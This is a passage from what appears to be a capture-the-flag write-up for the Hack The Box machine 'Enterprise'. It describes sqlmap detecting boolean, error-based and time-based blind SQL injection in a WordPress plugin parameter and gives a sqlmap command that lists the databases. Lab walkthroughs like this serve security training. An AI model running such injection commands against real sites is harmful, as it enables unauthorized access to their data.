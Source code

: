 ![](/Linux/Linux-Medium/Enterprise/Screenshots/sqlmap.png)

![](/Linux/Linux-Medium/Enterprise/Screenshots/vuln.png)

It finds three injections, boolean-based blind, error-based, and time-based blind. Blind injections are always going to be slow, as they basically give one bit character per query.

Start by listing the databases:

```sh
sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch --dbs
```
